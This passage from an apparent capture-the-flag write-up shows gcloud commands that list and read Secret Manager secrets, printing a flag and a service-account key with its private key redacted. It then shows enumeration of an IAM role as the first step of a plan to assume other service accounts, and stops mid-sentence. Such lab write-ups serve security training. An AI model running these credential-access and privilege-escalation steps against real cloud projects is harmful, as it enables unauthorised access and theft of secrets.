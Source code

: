 From there, I tried to list all secrets:

```console
[MacBook-Pro learn-the-alphabet]$ gcloud secrets list
NAME                          CREATED              REPLICATION_POLICY  LOCATIONS
Super_Secret_Service_Account  2025-10-14T14:28:01  automatic           -
```

Here, we find a flag, as well as credentials for the `sa-implicit-a@aisaas-project-474522.iam.gserviceaccount.com` service account:

```console
[MacBook-Pro ~]$ gcloud secrets versions access --secret Super_Secret_Service_Account 1
Flag-9

HF-a7e0ee7b5a738703b4584e61068fbaff

{
  "type": "service_account",
  "project_id": "aisaas-project-474522",
  "private_key_id": "bbc0f98a20511219fb655aa859e685b148b0697f",
  "private_key": "-----BEGIN PRIVATE KEY-----\n[redacted]\n-----END PRIVATE KEY-----\n",
  "client_email": "sa-implicit-a@aisaas-project-474522.iam.gserviceaccount.com",
  "client_id": "114630546428669668908",
  "auth_uri": "https://accounts.google.com/o/oauth2/auth",
  "token_uri": "https://oauth2.googleapis.com/token",
  "auth_provider_x509_cert_url": "https://www.googleapis.com/oauth2/v1/certs",
  "client_x509_cert_url": "https://www.googleapis.com/robot/v1/metadata/x509/sa-implicit-a%40aisaas-project-474522.iam.gserviceaccount.com",
  "universe_domain": "googleapis.com"
}%
```

🚩

## Flag 10

In the project IAM policy from either, we saw a role attached to the `sa-implicit-a` service account named `HINT_Check_resources_based_permissions_GCP_can_do_resource_based`.

```console
[MacBook-Pro ~]$ gcloud iam roles describe --project aisaas-project-474522 HINT_Check_resources_based_permissions_GCP_can_do_resource_based
description: 'Created on: 2025-10-14'
etag: BwZBH-BukrE=
includedPermissions:
- iam.serviceAccounts.list
name: projects/aisaas-project-474522/roles/HINT_Check_resources_based_permissions_GCP_can_do_resource_based
```

The role really wants us to look into implicit / resource-based IAM permissions. I saw `sa-implicit-b` and  `sa-implicit-c` so I figured we needed to somehow assume those roles.

I asked ChatGPT if we could somehow enumerate which roles I had permission to assume. BasedGPT helped me come up with:
